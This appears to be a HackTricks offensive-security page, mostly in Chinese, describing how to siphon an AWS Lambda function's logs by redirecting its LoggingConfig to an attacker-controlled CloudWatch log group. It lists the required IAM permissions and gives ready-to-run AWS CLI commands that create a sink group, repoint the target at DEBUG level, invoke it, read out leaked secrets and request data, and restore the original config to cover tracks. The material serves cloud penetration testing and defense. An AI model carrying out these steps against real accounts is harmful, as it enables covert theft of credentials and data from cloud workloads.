 # AWS Lambda – Log Siphon via LoggingConfig.LogGroup Redirection

{{#include ../../../../banners/hacktricks-training.md}}

滥用 `lambda:UpdateFunctionConfiguration` 的高级日志控制，将函数的日志重定向到攻击者选择的 CloudWatch Logs log group。此方法无需更改代码或执行角色（大多数 Lambda 角色已通过 `AWSLambdaBasicExecutionRole` 包含 `logs:CreateLogGroup/CreateLogStream/PutLogEvents`）。如果函数打印 secrets/request bodies 或在崩溃时输出堆栈跟踪，你可以从新的日志组中收集它们。

## Required permissions
- lambda:UpdateFunctionConfiguration
- lambda:GetFunctionConfiguration
- lambda:InvokeFunction (或依赖现有触发器)
- logs:CreateLogGroup (如果函数角色已有该权限通常不需要)
- logs:FilterLogEvents (用于读取事件)

## Steps
1) 创建一个 sink log group
```
aws logs create-log-group --log-group-name "/aws/hacktricks/ht-log-sink" --region us-east-1 || true
```
2) 重定向目标函数日志
```
aws lambda update-function-configuration \
--function-name <TARGET_FN> \
--logging-config LogGroup=/aws/hacktricks/ht-log-sink,LogFormat=JSON,ApplicationLogLevel=DEBUG \
--region us-east-1
```
等待 `LastUpdateStatus` 变为 `Successful`：
```
aws lambda get-function-configuration --function-name <TARGET_FN> \
--query LastUpdateStatus --output text
```
3) 调用并从 sink 读取
```
aws lambda invoke --function-name <TARGET_FN> /tmp/out.json --payload '{"ht":"log"}' --region us-east-1 >/dev/null
sleep 5
aws logs filter-log-events --log-group-name "/aws/hacktricks/ht-log-sink" --limit 50 --region us-east-1 --query 'events[].message' --output text
```
## 影响
- 悄悄将所有应用/系统 logs 重定向到你控制的 log group，绕过日志仅会落在 `/aws/lambda/<fn>` 的预期。
- Exfiltrate 函数打印或在错误中暴露的敏感数据。

## 清理
```
aws lambda update-function-configuration --function-name <TARGET_FN> \
--logging-config LogGroup=/aws/lambda/<TARGET_FN>,LogFormat=Text,ApplicationLogLevel=INFO \
--region us-east-1 || true
```
## 注意
- 日志控制是 Lambda 的 `LoggingConfig` 的一部分 (LogGroup, LogFormat, ApplicationLogLevel, SystemLogLevel)。
- 默认情况下，Lambda 会将日志发送到 `/aws/lambda/<function>`，但你可以指向任何日志组名称；如果允许，Lambda（或执行角色）会创建它。

{{#include ../../../../banners/hacktricks-training.md}}
